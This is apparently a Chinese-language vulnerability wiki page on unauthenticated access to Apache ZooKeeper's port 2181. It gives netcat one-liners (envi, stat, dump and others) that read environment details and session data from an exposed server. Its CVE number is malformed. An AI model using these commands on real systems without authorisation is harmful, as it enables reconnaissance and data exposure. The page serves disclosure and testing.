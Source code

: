 ```yaml
---
Title: Apache ZooKeeper 未授权访问漏洞 CVE-2014-085
---
```


# Apache ZooKeeper 未授权访问漏洞 CVE-2014-085

## 漏洞描述

默认安装配置完的zookeeper允许未授权访问，管理员未配置访问控制列表（ACL）。导致攻击者可以在默认开放的2181端口下通过执行envi命令获得大量敏感信息（系统名称、java环境）导致任意用户可以在网络不受限的情况下进行未授权访问读取数据

## 漏洞影响

<a-checkbox checked>Apache ZooKeeper</a-checkbox></br>

## 漏洞复现

Apache  ZooKeeper 默认开放`2181端口` ,使用如下命令获取敏感数据

```shell
echo envi | nc xxx.xxx.xxx.xxx 2181
```

![98517179-604b-45d3-8f08-88ac223c1dd7](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/98517179-604b-45d3-8f08-88ac223c1dd7.png)

其他信息

```shell
1、stat：列出关于性能和连接的客户端的统计信息。
echo stat |ncat 127.0.0.1 2181

2、ruok：测试服务器是否运行在非错误状态。
echo ruok |ncat 127.0.0.1 2181

3、reqs：列出未完成的请求。
echo reqs |ncat 127.0.0.1 2181
　　
4、envi：打印有关服务环境的详细信息。
echo envi |ncat 127.0.0.1 2181
　　
5、dump：列出未完成的会话和临时节点。
echo dump |ncat 127.0.0.1 2181
```